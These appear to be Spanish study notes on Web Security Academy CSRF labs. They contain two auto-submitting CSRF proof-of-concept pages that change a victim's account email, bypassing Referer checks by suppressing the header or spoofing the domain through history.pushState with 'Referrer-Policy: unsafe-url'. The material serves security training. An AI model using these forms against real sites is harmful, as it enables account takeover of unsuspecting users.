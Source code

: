 ```js
	* <meta name="referrer" content="never"> //dentro de la tag <body>
	//GENEREATE CSRF POC y dejamos la tag <meta> dentro de <body>
	<html>
	  <!-- CSRF PoC - generated by Burp Suite Professional -->
	  <body>
	    <meta name="referrer" content="never">
	    <form action="https://ID-LAB.web-security-academy.net/my-account/change-email" method="POST">
	      <input type="hidden" name="email" value="ATTACKER&#64;normal&#45;user&#46;net" />
	      <input type="submit" value="Submit request" />
	    </form>
	    <script>
	      history.pushState('', '', '/');
	      document.forms[0].submit();
	    </script>
	  </body>
	</html>
	//Super importante cambiar el email, para que el ataque se de.

//LAB: CSRF with broken Referer validation -  `Referrer-Policy: unsafe-url`
	//si pillo una app que no implementa tokens csrf y no pillo nada más además de cambiar un email entonces el fucking ataque va por aqui o por un csrf basico o realmente por una tag <meta name referrer content never> EL LAB DE ARRIBA. 
	//importante valida bien el history.pushstate
	//En este caso header Referer no valida el dominio correctamente,
	//solo valida que contenga la palabra correcta del dominio. 
	<html>
	  <!-- CSRF PoC - generated by Burp Suite Professional -->
	  <body>
	    <form action="https://ID-LAB.web-security-academy.net/my-account/change-email" method="POST">
	      <input type="hidden" name="email" value="attacker5&#64;normal&#45;user&#46;net" />
	      <input type="submit" value="Submit request" />
	    </form>
	    <script>
	      history.pushState('', '', '/?ID-LAB.web-security-academy.net');
	      document.forms[0].submit();
	    </script>
	  </body>
	</html>
	//Actualizar el correo claramente. 
	//Y EN EL ENDPOINT DEL SERVER EXPLOIT EN LUGAR DE /exploit ponemos /ID-LAB.web-security-academy.net
	//en server exploit dejamos la regla: `en el HEAD`
	Referrer-Policy: unsafe-url
	//Y listo solved y que coma monda el planeta entero. 
```


<hr> 

### LAB: Performing CSRF exploits over GraphQL


  [param]: html